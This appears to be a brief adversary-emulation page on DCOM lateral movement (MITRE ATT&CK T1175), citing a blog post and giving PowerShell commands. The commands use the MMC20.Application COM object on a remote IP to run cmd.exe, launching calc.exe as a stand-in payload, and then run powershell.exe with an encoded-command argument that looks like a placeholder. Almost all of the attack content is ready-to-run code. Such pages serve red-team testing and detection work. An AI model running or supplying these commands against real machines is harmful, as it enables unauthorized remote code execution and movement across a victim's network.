 
## DCOM Lateral Movement

MITRE ATT&CK Technique: [T1175](https://attack.mitre.org/wiki/Technique/T1175)

[DCOM Lateral Movement] (https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/) 

Input:

    $c = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.150.10.15"));
    $c.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\cmd.exe",$null,"/c calc.exe","7")
    $c = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application",""));
    $c.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\WindowsPowershell\v1.0\powershe ll.exe",$null,"-e D39DJFJFJFJOSOD","7")
